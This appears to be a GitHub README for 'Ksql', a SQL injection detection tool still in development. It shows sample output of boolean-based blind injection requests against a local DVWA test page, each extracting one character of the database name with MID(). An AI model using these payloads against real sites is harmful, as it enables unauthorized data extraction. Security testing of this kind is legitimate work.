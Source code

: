 # Ksql

------

一个SQL注入检测的工具，目前还在开发中，仅增加了简单的盲注检测功能

    http://localhost/test/test.php?id=1" AND MID(DATABASE(),3,1)="p
    []
    http://localhost/test/test.php?id=1" AND MID(DATABASE(),3,1)="q
    []
    http://localhost/test/test.php?id=1" AND MID(DATABASE(),3,1)="r
    []
    http://localhost/test/test.php?id=1" AND MID(DATABASE(),3,1)="s
    []
    http://localhost/test/test.php?id=1" AND MID(DATABASE(),3,1)="t
    []
    http://localhost/test/test.php?id=1" AND MID(DATABASE(),3,1)="u
    []
    http://localhost/test/test.php?id=1" AND MID(DATABASE(),3,1)="v
    []
    http://localhost/test/test.php?id=1" AND MID(DATABASE(),3,1)="w
    ['firstName: admin']
    w
    http://localhost/test/test.php?id=1" AND MID(DATABASE(),4,1)="a
    ['firstName: admin']
    a
    database:  dvwa

